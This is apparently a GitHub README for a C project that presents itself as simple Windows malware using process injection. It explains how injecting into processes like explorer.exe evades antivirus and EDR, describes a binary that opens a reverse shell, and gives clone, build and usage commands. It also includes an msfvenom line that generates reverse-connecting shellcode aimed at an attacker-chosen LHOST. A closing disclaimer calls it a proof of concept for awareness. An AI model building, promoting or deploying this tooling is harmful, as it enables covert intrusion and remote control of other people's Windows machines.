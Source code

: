 
<div>
    <img src="https://img.shields.io/badge/Language%20-C-black.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Tools%20-Windows API-green.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Target OS%20-Windows 7..11-blue.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Project%20-Malware | Process Injection-red.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Hacking tool | Cybersecurity Awareness%20-teste?style=flat-square style="max-width: 100%;">
</div>


# Simple Windows malware | Process injection

Simple payload for hacking Windows and process injection. Using the windows API for the C programming language. 

* **Windows API:** https://learn.microsoft.com/pt-br/windows/win32/apiindex/windows-api-list

### **Process injection**

![ezgif com-video-to-gif](https://github.com/Jsmoreira02/Wind0wsM4lware_/assets/103542430/090ca836-8c52-4feb-ba99-911b6dbabd90)


Process injection is an evasive attack method, that hackers use to gain access to the system by executing their malicious code in the address space of a legitimate process, hiding the malware and often not generating any suspicion about an attacker on the system, as the malicious code becomes difficult to detect. Process injections also evade detection by any antivirus, application control, or endpoint detection and response systems running on the network because the infected processes are viewed as legitimate. 

Hackers usually use less suspicious or more important system processes such as: svchost.exe, rundll32.exe or even explorer.exe.

* **Explorer_injection.exe:** Performs a shell connection on the reverse target computer at the execution address of the explorer.exe process. 

#

* **How to find the PID of a running windows process:**

![Screenshot_20231107_182320](https://github.com/Jsmoreira02/Wind0wsM4lware_/assets/103542430/1d9ab09e-04ac-45e2-8894-dfca0117868f)


```bash
  tasklist | findstr <process name>
```
=> CMD syntax: `Process_injection.exe <PID>`

# Compiling | Install

* **Installation:** 
```bash 
git clone https://github.com/Jsmoreira02/Wind0wsM4lware_.git
cd Wind0wsM4lware_
make
```

* **Compiling just one of the files with "Makefile":** `make Process_injection` `make Win_malware` `make explorer_injection`

* **Compiling the code (Windows):** `gcc code.c -o code` or `make (In case mingw-w64 is installed)`

# MinGW-w64 Instalation:

**Debian/Ubuntu OS:** 
```bash 
sudo apt install mingw-w64-x86-64 (64-bits)
or
sudo apt install mingw-w64 (32-bits)
```

**Fedora**:
```bash 
sudo dnf install mingw64-gcc
```

**Arch Linux**:
```bash 
sudo pacman -S mingw-w64-gcc
```

=> More Info: https://www.mingw-w64.org/

=> Shellcode generator: `msfvenom -p <Payload> LHOST=<IP> LPORT=<LOCAL PORT> --platform windows --arch <x64/x86> -f c`

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept, is intended to raise awareness about cybersecurity and can be improved in many ways.
